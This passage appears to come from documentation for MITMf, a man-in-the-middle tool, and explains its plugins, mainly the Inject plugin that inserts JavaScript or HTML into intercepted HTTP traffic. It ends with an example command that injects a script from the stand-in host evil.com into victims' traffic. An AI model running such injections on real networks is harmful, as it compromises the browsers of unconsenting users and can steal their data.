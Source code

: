#**Using the Plugins**

The real power of MITMf comes from it's plugins! when enabled these can modify HTTP traffic in various ways!

For a full list of all the plugins and their relative options run:
```
python mitmf.py --help
```

How would we use one? easy! Let's take a look:
```
Inject:
  Inject arbitrary content into HTML content

  --inject              Load plugin 'Inject'
  --js-url JS_URL       URL of the JS to inject
  --js-payload JS_PAYLOAD
                        JS string to inject
  --js-file JS_FILE     File containing JS to inject
  --html-url HTML_URL   URL of the HTML to inject
  --html-payload HTML_PAYLOAD
                        HTML string to inject
  --html-file HTML_FILE
                        File containing HTML to inject
  --per-domain          Inject once per domain per client.
  --rate-limit RATE_LIMIT
                        Inject once every RATE_LIMIT seconds per client.
  --count-limit COUNT_LIMIT
                        Inject only COUNT_LIMIT times per client.
  --white-ips IP        Inject content ONLY for these ips (comma seperated)
  --black-ips IP        DO NOT inject content for these ips (comma seperated)
  --white-domains DOMAINS
                        Inject content ONLY for these domains (comma seperated)
  --black-domains DOMAINS
                        DO NOT inject content for these domains (comma seperated)
```

This is the Inject plugin! To call it all we need to do is:
```
python mitmf.py -i interface --inject --js-url http://evil.com/evil.js
```
Here I'm calling the inject plugin with the ```--inject``` argument and passing in it's ```--js-url``` option to inject a Javascipt file in the intercepted HTTP traffic!

**Note: you can use multiple plugins at the same time!**